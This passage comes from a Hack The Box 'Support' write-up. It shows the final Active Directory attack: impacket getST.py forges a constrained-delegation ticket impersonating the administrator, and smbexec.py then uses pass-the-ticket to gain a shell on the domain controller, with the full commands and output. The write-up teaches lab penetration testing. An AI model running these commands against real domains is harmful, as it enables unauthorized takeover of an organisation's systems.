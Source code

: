 ```powershell
{1, 0, 4, 128...}
```

Our last step is to get the ticket. We are using getST.py tool from impacket package here. It will request the ticket and save it as ccache, with -impersonate switch it requests the ticket on behalf other user (it will use S4U2Self/S4U2Proxy to request the ticket.). Then, we have to export a special variable "KRB5CCNAME" to specify the file with the ticket.

```zsh
$ getST.py support.htb/test -dc-ip 10.10.11.174 -impersonate administrator -spn  http/dc.support.htb

Impacket v0.10.1.dev1+20220513.140233.fb1e50c1 - Copyright 2022 SecureAuth Corporation

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
                                                                                                                              
$ export KRB5CCNAME=administrator.ccache
```

Also, we have to add "dc.support.htb" computer to our /etc/hosts.

> 10.10.11.174    support support.htb dc.support.htb

Now we perform Pass-The-Ticket to access the Domain Controller as an Administrator by smbexec.py script from impacket. It will return us a shell. We specify -no-pass and -k flags to make the script use a ticket from "KRB5CCNAME" variable. 

```zsh
$ smbexec.py  support.htb/administrator@dc.support.htb -no-pass -k
```

![root.txt](/assets/hackthebox/support/root_txt.png)

# Conclusion
